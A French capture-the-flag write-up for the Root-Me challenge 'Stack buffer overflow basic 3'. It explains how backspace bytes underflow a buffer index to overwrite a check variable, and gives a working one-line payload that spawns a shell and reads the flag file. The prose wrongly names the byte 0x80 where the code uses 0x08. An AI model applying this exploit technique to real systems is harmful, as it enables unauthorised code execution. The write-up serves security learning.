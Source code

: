 ```yaml
---
title: "ELF x86 - Stack buffer overflow basic 3"
description: "WriteUp - Medium"
pubDate: "May 12 2024"
image: /image/image4.jpg
categories:
  - rootme
tags:
  - app-system
  - buffer-overflow
  - stack
---
```


Le but de ce challenge est que check soit égale à 0xbffffabc afin d'ouvrir un shell.

```c
if(check == 0xbffffabc)
        shell();
```

Je ne risque pas de provoquer un débordement de buffer, car dès que count atteint 64, nous entrons dans une boucle infinie avec des messages "Oh no... Sorry !".
Cependant, il est remarquable qu'il est possible de décrémenter count en fournissant au programme un octet 0x80.

```c
 case 0x08:
  count--;
  printf("\b");
  break;
```

De plus, dans le case default, la valeur de i est affectée à buffer[count]:

```c
 default:
  buffer[count] = i;
  count++;
  break;
```

Il est facile de voir la vulnérabilité : si nous parvenons à décrémenter count suffisamment pour que buffer[count] pointe sur check, nous pourrions écrire 0xbffffabc et ainsi prendre le contrôle du shell.
Comme la variable check est juste en dessous de buffer, en ajoutant 4 fois 0x80 (4 fois car sizeof(int) = 4), nous pourrions pointer sur check.

```c
char buffer[64];
  int check;
  int i = 0;
  int count = 0;
```
Je peux donc utiliser la commande ci-dessous pour décrémenter count 4 fois et écrire la séquence d'octets nécessaire pour passer la condition de check, en n'oubliant pas de terminer par ;cat pour maintenir le shell ouvert.

```python
  $ (python -c 'print"\x08"*4+"\xbc\xfa\xff\xbf"';cat)|./ch16
```
Ainsi, je peux afficher le contenu de .passwd et récupérer le flag.
